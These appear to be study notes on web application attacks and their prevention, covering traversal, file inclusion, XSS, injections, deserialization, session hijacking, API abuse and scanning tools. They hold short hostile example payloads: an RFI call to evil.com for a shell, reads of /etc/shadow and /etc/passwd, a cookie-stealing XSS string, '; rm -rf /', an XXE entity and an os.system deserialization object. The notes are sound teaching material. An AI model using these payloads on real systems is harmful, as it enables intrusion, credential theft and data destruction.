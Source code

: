 ### Lessons Overview
- **Directory Traversals** & **File Inclusions**  
- **Cross-Site Scripting (XSS)**  
- **Request Forgeries (CSRF & SSRF)**  
- **SQL Injection**  
- **Other Injections** (Command, SSTI, XML)  
- **Arbitrary Code Execution**  
- **Session Hijacking**  
- **API Abuse**  
- **Tools Demos:** Gobuster, DirBuster, WPScan, Burp Suite, sqlmap, Postman, OWASP ZAP

---

### Directory Traversals
- **Definition:** Use `../` (or `%2E%2E%2F`) to navigate above web root.  
- **Web Root:** Typically `/var/www` on Linux.  
- **Attack Process:**  
  - Inject traversal sequences to access files like `../../etc/shadow`.  
  - Encode characters to bypass filters.  
- **Prevention:**  
  - Sanitize/validate inputs; remove `../`.  
  - Restrict file access to web root.  

### File Inclusion
- **RFI (Remote File Inclusion):**  
  - Includes external URLs (e.g. `?file=http://evil.com/shell.php`).  
- **LFI (Local File Inclusion):**  
  - Includes local files via traversal (e.g. `?file=../../etc/passwd%00`).  
	  - the `%00` is the null character to end
- **Mitigation:** Whitelist valid paths; validate inputs; disable null-byte bypass.

### Directory Traversal Tools
- **Gobuster:** Fast CLI brute-forcing  
  ```bash
	  gobuster dir -u http://192.168.1.10 -w <wordlist>
	```
- **DirBuster:** Java-based recursive enumeration
- **WPScan:** WordPress-specific scanner
    ```bash
    wpscan --url www.vulnerablewp.com --enumerate u
    ```

---

### Cross-Site Scripting (XSS)

- **Definition:** Inject malicious scripts into trusted sites.
- **Attack Flow:**
    1. Identify input flaw.
    2. Craft malicious URL/payload.
    3. Execute in victim’s browser.
- **Types:**
    - **Reflected:** payload in URL, one-time aka non-persistent
    - **Stored:** saved in backend, persistent.
    - **DOM-Based:** manipulation via `document.*`.
	    - **Example**: `https://url.com/index.html#default=<script>alert(document.cookie)</script>`
- **Impact:** Defacement, cookie theft, form hijacking, malware installation.
- **Prevention:** Input validation, output encoding, **Content Security Policy (CSP)**.

---

### Request Forgeries

- **CSRF (Cross-Site Request Forgery):**
    - Trick authenticated users to perform unwanted actions.
    - **Mitigations:** Anti-CSRF tokens, **SameSite** cookies, re-auth for critical ops.

- **SSRF (Server-Side Request Forgery):**
    - Coerce server to access internal resources (e.g. AWS metadata).
    - **Mitigations:** Input validation, domain whitelists, network segmentation.

---

### SQL Injection

- **Definition:** Inject SQL to manipulate queries (SELECT, INSERT, UPDATE, DELETE).
- **Example:** `OR 1=1` bypasses login.
- **Indicators:** Unescaped `'`, `OR 1=1`, injected logic.
- **Prevention:** Parameterized queries, input sanitization, **WAF**.

---

### Injection Attacks

- **Command Injection:**
    - Execute OS commands via unsanitized inputs (e.g. `; rm -rf /`).
    - **Prevention:** Validate inputs, avoid shell calls.
- **SSTI (Server-Side Template Injection):**
    - Unescaped template expressions (e.g. Jinja2 `{{7*7}}`).
    - **Prevention:** Auto-escaping templates, input validation.
- **XML Injection (XXE):**
    - External entities to read files (e.g. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`).
    - **Prevention:** Disable external entities, schema validation.

---

### Arbitrary Code Execution

- **Deserialization Attacks:** Malicious objects in serialized data.
	- Serialized data:
		```
		{
			"order": {
				"product": "item"
				"setorderid": "os.system('ls /etc/shadow')"
			}
		}
		```
- **Web Shells:** File upload or code execution flaws to deploy interactive shells.
- **Prevention:** Avoid deserializing untrusted data, strict upload validation, restrict executable permissions, deploy **WAF**.

---

### Web Session Hijacking

- **SID (Session ID):** Cookie for user authentication.
- **Methods:**
    - **Session Fixation:** Pre-set SID before login.
    - **Session Replay:** MITM capture & reuse.
    - **XSS Theft:** Steal cookie via script.
    - **Social Engineering:** Phishing tokens.
- **Mitigations:** Regenerate SID on login, **HTTPS**, Secure & **HttpOnly** flags, session timeouts, re-auth for sensitive actions, log monitoring.

---

### API Abuse

- **Definition:** Misuse of API endpoints beyond intended use.
- **Examples:** Data scraping (Cambridge Analytica), JWT tampering.
- **Tools:** Postman, Burp Suite.
- **JWT Risks:**
    - Structure: Header, Payload (claims), Signature.
    - Weak algos (CVE-2015-2951), claim mutation.
- **Mitigations:** Strong algos (HS256/RS256), signature validation, short TTLs, key rotation.

---

### OWASP ZAP

- **Purpose:** Open-source web app scanner & proxy.
- **Core Features:** Intercept, inspect, manipulate traffic.
- **Scan Modes:**
    - **Passive:** Header/SSL checks without payloads.
    - **Active:** Inject payloads (SQLi, XSS).
- **Usage:**
    - **Automated Scan:** URL spider + scan.
    - **Manual Explore:** Record authenticated flows.
    - **HUD:** In-browser real-time alerts.
- **Integration:** CI pipelines for continuous scanning.
- **Customization:** Scripting & plugins for advanced tests.